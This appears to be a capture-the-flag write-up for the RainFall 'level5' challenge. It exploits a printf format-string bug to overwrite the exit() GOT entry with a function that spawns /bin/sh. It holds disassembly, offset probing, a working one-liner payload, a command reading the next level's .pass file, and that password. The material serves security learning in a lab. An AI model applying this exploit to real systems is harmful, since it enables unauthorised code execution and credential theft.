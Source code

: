# Level 5

Another `printf` format string exploit, except this time we won't get a shell by setting a value to a variable, instead we have to call the function `o`...

```shell
r2 ./level5
[0x080483f0]> aaa
[...]
[0x080483f0]> afl
0x080483f0    1 33           entry0
[...]
0x080484a4    1 30           sym.o
[0x080483f0]> s sym.o
[0x080484a4]> pdf
┌ 30: sym.o ();
│           0x080484a4      55             push ebp
│           0x080484a5      89e5           mov ebp, esp
│           0x080484a7      83ec18         sub esp, 0x18
│           0x080484aa      c70424f08504.  mov dword [esp], str._bin_sh ; [0x80485f0:4]=0x6e69622f ; "/bin/sh" ; const char *string
│           0x080484b1      e8fafeffff     call sym.imp.system         ; int system(const char *string)
│           0x080484b6      c70424010000.  mov dword [esp], 1          ; int status
└           0x080484bd      e8cefeffff     call sym.imp._exit          ; void _exit(int status)
```

## Another day, Another %p

As usual let's check where our buffer starts in the stack
```shell
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000" + "%p|"*20'`
00000x200|0xb7fd1ac0|0xb7ff37d0|0x30303030|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0x257c7025|0x70257c70|0x7c70257c|0xa|
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000" + "%p|"*4'`
00000x200|0xb7fd1ac0|0xb7ff37d0|0x30303030|
level5@RainFall:~$ ./level5 <<< `python -c 'print "0000%4$p"'`
00000x30303030
```
Ok perfect, now what?

## Pesky exit

```asm
0x080484e5      e8b6feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
0x080484ea      8d85f8fdffff   lea eax, [format]
0x080484f0      890424         mov dword [esp], eax        ; const char *format
0x080484f3      e888feffff     call sym.imp.printf         ; int printf(const char *format)
0x080484f8      c70424010000.  mov dword [esp], 1          ; int status
0x080484ff      e8ccfeffff     call sym.imp.exit           ; void exit(int status)
```


What if we just replaced the address of `exit()` with the address of `o`? let's try!

## The GOT

The Global Offset Table holds the adresses of functions that are dynamically linked, luckily for us it is writeable!

First let's get the value of `exit` in the GOT, before the program can replace it.
```shell
level5@RainFall:~$ gdb ./level5
[...]
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
(gdb) p o
$1 = {<text variable, no debug info>} 0x80484a4 <o>
```

We need to override the value of `0x8049838` with the address of `o`, `0x80484a4`
sadly, struct.pack() adds some padding when used with stdin, so we'll have to passes the address in little endian directly.
```shell
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%{}p".format(str(0x80484a4-4)) + "%4$n"'; cat -)  | ./level5 | tr -d ' '
0x200
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
🚀
